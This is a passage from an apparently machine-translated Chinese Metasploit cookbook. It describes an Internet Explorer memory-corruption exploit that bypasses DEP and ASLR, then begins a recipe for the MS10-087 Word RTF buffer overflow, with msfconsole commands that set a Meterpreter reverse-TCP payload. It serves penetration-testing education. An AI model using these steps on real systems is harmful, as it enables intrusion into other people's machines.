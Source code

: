 同一个 CSS 文件被调用了四次。当 mshtml 解析此 HTML 页面时，会导致内存损坏。此漏洞利用堆喷洒和.NET 2.0**mscorie.dll**模块的组合绕过 DEP 和 ASLR。由于过度消耗系统资源，它最终崩溃。攻击者利用此漏洞获得与登录用户相同的用户权限。

![How it works...](img/7423_04_03.jpg)

在前面的屏幕截图中，您可以看到背景由执行恶意链接的 IE 实例组成，前景图像是 Windows 任务管理器的图像，您可以清楚地看到 IE 浏览器过度消耗内存。在这个任务管理器中要注意的另一件有趣的事情是 notepad.exe 进程。即使没有正在运行的 notepad 实例，任务管理器仍会显示此过程。明显的原因是我们已经从 iexplorer.exe 迁移到 notepad.exe，所以这个过程是在后台运行的。

## 还有更多。。。

使用此漏洞利用模块时，我们可能会遇到一个常见错误。让我们快速查看一下，并找出相关的解决方案。

### 缺少.NET CLR 2.0.50727

使用此漏洞利用模块时，您可能会遇到错误“目标计算机没有.NET CLR 2.0.50727”。嗯，这个错误的原因并不是因为缺少.Net。其主要原因是 Internet Explorer 未设置为默认浏览器，因此用户代理被滥用以从非 ASLR 区域获取地址。通过将 Internet Explorer 设置为默认 web 浏览器，可以克服此错误。

# Microsoft Word RTF 堆栈缓冲区溢出

在前两个配方中，我们完全关注基于浏览器的漏洞利用。在本教程中，我们将重点介绍另一种流行的 Windows 工具，称为 Microsoft Office。Office 软件包的 2010 和 2007 版本中都存在 RTF 缓冲区溢出漏洞。此漏洞存在于 Microsoft Word RTF 解析器内对 `pfragments`shape 属性的处理中。让我们详细了解这个漏洞。我假设我们已经获得了有关目标的信息，目标的系统上安装了 Office pack。

## 准备好了吗

我们将从启动 msfconsole 开始。我们将在此配方中使用的漏洞可位于 `exploit/windows/fileformat/ms10_087_rtf_pfragments_bof`。我们将使用的有效载荷是 `windows/meterpreter/reverse_tcp`来获得与目标机器的外壳连接。

## 怎么做。。。

工作过程将再次类似于我们迄今为止在以前的食谱中看到的。我们将首先确定我们的目标。然后，我们将选择一个有效负载，然后为这两个负载传递相关参数，以便成功执行该漏洞利用。让我们执行这些步骤。

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf exploit(ms10_087_rtf_pfragments_bof) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms10_087_rtf_pfragments_bof) > show options
Module options (exploit/windows/fileformat/ms10_087_rtf_pfragments_bof):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.rtf yes The file name.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
```
